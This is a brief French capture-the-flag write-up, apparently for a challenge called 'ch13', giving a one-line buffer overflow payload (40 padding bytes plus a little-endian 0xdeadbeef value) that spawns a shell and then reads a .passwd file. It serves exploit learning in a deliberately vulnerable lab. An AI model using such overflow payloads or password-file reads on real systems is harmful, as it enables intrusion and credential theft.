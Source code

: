 
40 -> taille du buffer

```bash
(python -c 'print("A" * 40 + "\xef\xbe\xad\xde")';cat) | ./ch13
```
- Little endian

Le "cat" permet d'interrompre le code pour ne pas que le shell se ferme.

Une fois dans le shell : cat .passwd

